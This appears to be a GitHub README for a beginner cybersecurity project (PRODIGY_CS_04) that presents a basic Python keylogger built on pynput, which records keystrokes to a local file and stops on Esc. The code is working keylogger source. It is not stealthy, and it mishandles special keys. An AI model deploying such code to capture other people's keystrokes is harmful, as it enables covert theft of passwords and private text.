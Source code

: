 # PRODIGY_CS_04
I have created a basic keylogger program that records and logs keystrokes. It Focuses on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers.
So, Here is my Project , Check below :

import pynput.keyboard

# Global variable to store the logged keys
logged_keys = []

# Function to write logged keys to a file
def write_to_file(keys):
    with open("keylog.txt", "a") as file:
        for key in keys:
            # Convert special keys to strings
            if isinstance(key, pynput.keyboard.KeyCode):
                key = str(key.char)
            # Write the key to the file
            file.write(key)

# Function called when a key is pressed
def on_press(key):
    global logged_keys
    logged_keys.append(key)
    # Write logged keys to file after every 10 keys pressed
    if len(logged_keys) >= 10:
        write_to_file(logged_keys)
        logged_keys = []

# Function called when a key is released
def on_release(key):
    # Stop the keylogger by returning False
    if key == pynput.keyboard.Key.esc:
        return False

# Set up the keyboard listener
with pynput.keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
